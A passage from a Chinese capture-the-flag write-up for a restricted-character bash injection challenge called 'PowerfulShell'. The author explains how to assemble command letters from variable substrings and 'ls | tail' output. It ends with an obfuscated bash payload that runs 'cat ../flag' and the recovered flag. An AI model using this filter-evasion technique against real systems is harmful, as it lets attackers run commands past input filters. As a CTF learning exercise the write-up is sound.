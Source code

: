 ```w```可以吗？好像拿不到。因为把命令执行结果赋值给变量的话只能拿到第一行，而
```
这不是想要啥字母就有啥？

不过因为我暂时不会截取某行，只能把第一行赋值给一个变量。不过还好，我们拿到了```/```，也算很重要的东西了。

现在我注意到了```.```,就先试试```ls ../```能给我带来什么吧。

```bash
bin
boot
dev
etc
flag
home
lib
lib32
lib64
libx32
media
mnt
opt
players
proc
root
run
sbin
srv
sys
tmp
usr
var
```
要是我能拿到这里面的字母就好了qwq 但是输出直接赋值给变量只能拿到第一行，怎么拿后面几行的字母咧？

起初我还试图构造```ls ../bin```类似物，希望能在ls第一行结果拿到一些字母，但是失败了。

直到我终于注意到我有```tail```。因为```-```，数字， ```|```这三个都有，完全可以构造出```ls ../ | tail -number```的组合。number我可以控制，这样我似乎就可以截取出ls几乎任意行的单词了！ 看到```ls ../```里面直接有flag和c,d字母，截出来之后运行```cat ../flag```就好啦！

最后构造payload如下：
```bash
__=~
___=`${__:2:1}${__:7:1}`
____=$_
__2=`${__:7:1}${__:5:1}${____:4:1}`

__4=`${__:2:1}${__:7:1} ${___:13:1}${___:13:1}${__2:5:1} | ${____:4:1}${__:3:1}${__2:7:1}${___:7:1} -19`
__5=`${__:2:1}${__:7:1} ${___:13:1}${___:13:1}${__2:5:1} | ${____:4:1}${__:3:1}${__2:7:1}${___:7:1} -21`
__6=`${__:2:1}${__:7:1} ${___:13:1}${___:13:1}${__2:5:1} | ${____:4:1}${__:3:1}${__2:7:1}${___:7:1} -9`

${__6:3:1}${__:3:1}${____:4:1} ${___:13:1}${___:13:1}${__2:5:1}$__4

# cat ../flag 大火收汁！
# flag{N0w_I_Adm1t_ur_tru1y_5He11_m4ster_18bbb9823e}

# 解释：
# __ : /players # ~
# ___: PowerfulShell.sh # ls
# ____: input # $_
# __2: BASH=/bin/bash # set 拿/
# __4: flag # ls ../ tail -19 拿flag
# __5: dev # ls ../ tail -21 拿d(其实好像有点多余)
# __6: proc # ls ../ tail -9 拿c
```